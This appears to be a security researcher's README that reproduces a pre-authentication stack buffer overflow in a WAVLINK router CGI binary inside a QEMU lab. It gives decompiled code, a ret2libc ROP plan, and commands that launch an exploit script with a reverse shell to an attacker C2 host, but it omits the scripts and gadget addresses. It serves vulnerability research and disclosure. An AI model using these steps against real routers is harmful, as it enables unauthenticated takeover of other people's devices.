

# WAVLINK Router: CVE-2026-74843 Buffer Overflow

## 1. Overview
This project documents the reproduction of a pre-authentication stack-based buffer overflow (CWE-121) in a WAVLINK WN535M1 router CGI endpoint. The vulnerability allows for unauthenticated Remote Code Execution (RCE) via the HTTP_COOKIE header in the export_pingortrace.cgi binary.

## 2. Vulnerability Summary

| Field | Value |
| :--- | :--- |
| **Vendor** | WAVLINK / Shenzhen Ruiyin Technology Co., Ltd. |
| **Product** | WAVLINK WN531P3 (M31P3) / WN535M1 (M35M1) - shared firmware, MT7621 platform |
| **Firmware** | V250922 (`WAVLINK_WN535M1-M35M1_V250922-WO-GD.bin`) |
| **Type** | CWE-121: Stack-based Buffer Overflow |
| **Impact** | Pre-Authentication Remote Code Execution (RCE) |
| **Vector** | Network (HTTP) - single request, no auth, no user interaction |
| **Discoverer** | Independent Security Researcher |

##  3. Affected Device


##  4. Vulnerability Analysis
Static analysis of the export_pingortrace.cgi binary using Ghidra confirms a classic stack-based buffer overflow (CWE-121).

The decompiler output shows that the CGI retrieves the HTTP_COOKIE header and copies it into a fixed-size stack buffer using strcpy() without any length validation. Crucially, the strstr() check for "token=" occurs after the strcpy, meaning the buffer overflow triggers before authentication is ever verified.


**Pseudocode**
```bash
pcVar1 = getenv("HTTP_COOKIE");
strcpy(acStack_140, pcVar1);
pcVar1 = strstr(acStack_140, "token=");
```

**Assembly**
```bash
00400ae8  li     a1, 0x100       # length (256)
00400aec  jal    strcpy          # The vulnerable call
00400af0  addiu  a0, sp, 0x420   # destination buffer
```
## 5. Exploitation
### 5.1 Technique
ret2libc ROP. NX enabled (non-executable stack), no PIE, no Stack Canary.

The exploit uses a single ROP gadget in musl libc to call system("/bin/sh"). All addresses reside in libc — no stack pointer dependency. The payload is a fixed 320 bytes.

### 5.2 Key Addresses & ROP Gadget

### ROP Gadget address


### system() address


### "/bin/sh" address


### 5.3 Exploitation Flow
```bash
1. Send HTTP POST request with 320B payload in Cookie header
2. strcpy overflows - overwrites s0="/bin/sh", s2=system(), ra=gadget
3. Function returns - jr $ra - gadget
4. Gadget: move $a0,$s0; move $t9,$s2; jalr $t9 - system("/bin/sh")
5. Attacker sends commands via POST body (stdin) - arbitrary code execution
```
## 6. Proof of Concept
### Tools Used
`wavlink_rce_exploit.py` - Exploit harness provided by [wcndsb-sketch](https://github.com/wcndsb-sketch). Used to execute the `--binsh` (ret2libc) approach.

`curl_shell_server.py `- Attacker-side C2 server (for reverse shell). provided by [wcndsb-sketch](https://github.com/wcndsb-sketch).

**Custom Lab Harness** - A localized Python wrapper was written for this lab to dynamically resolve the libc base address and route the request through Lighttpd.

### Command Execution

**1. Start the C2 Server (Attacker VM):**

```bash
python3 curl_shell_server.py 4444 <ATTACKER_IP>
```

**2. Trigger the Exploit (Target VM):**
(Note: The --libc-base must match the dynamically found address in your QEMU environment).

```bash
python3 wavlink_rce_exploit.py \
  --target <TARGET_IP> \
  --port 80 \
  --binsh \
  --revshell \
  --lhost <ATTACKER_IP> \
  --lport 4444 \
  --libc-base 0x3ff5b000
```

**3. Reverse Shell Obtained:**




## 6. Lab Setup & Environment

## Step 1: Acquire the Firmware
Place the firmware image in a dedicated lab directory.


## Step 2: Extract the Firmware

```bash
binwalk -Me WAVLINK_WN535M1-M35M1_V250922-WO-GD.bin
```


This will create a directory containing extracted filesystem content.

## Step 3: Locate the CGI Endpoint
Search for the router CGI.

```bash
find . -path "*cgi-bin/export_pingortrace.cgi"
```


## Step 4: Run Under QEMU in Isolation

```bash
qemu-mipsel-static -L /path/to/extracted/rootfs /path/to/extracted/rootfs/etc/lighttpd/www/cgi-bin/export_pingortrace.cgi
```


## Step 5: Build a Safe Local CGI Host
For a controlled local test:

create a local CGI directory in  VM

serve it over localhost using Python's http.server in CGI mode

Example:
```bash
mkdir -p ~/wavlink-lab/http/cgi-bin
```


Then create a wrapper script that runs the binary through QEMU only.

```bash
cat > ~/wavlink-lab/http/cgi-bin/export_pingortrace.cgi <<'EOF'
#!/bin/sh
exec qemu-mipsel-static \
  -L /path/to/extracted/rootfs \
  /path/to/extracted/rootfs/etc/lighttpd/www/cgi-bin/export_pingortrace.cgi
EOF

chmod +x ~/wavlink-lab/http/cgi-bin/export_pingortrace.cgi
```


Serve it locally:

```bash
cd ~/wavlink-lab/http
python3 -m http.server --cgi 8000
```


Then test a harmless request:

```bash
curl -i -X GET http://127.0.0.1:8000/cgi-bin/export_pingortrace.cgi
```


## 7. Credits & Attribution
**Vulnerability Research:** Original disclosure and PoC by [wcndsb-sketch](https://github.com/wcndsb-sketch).

**Lab Environment:** Proxmox VM setup, Lighttpd CGI harness, and dynamic libc base calculation developed specifically for this isolated lab reproduction.

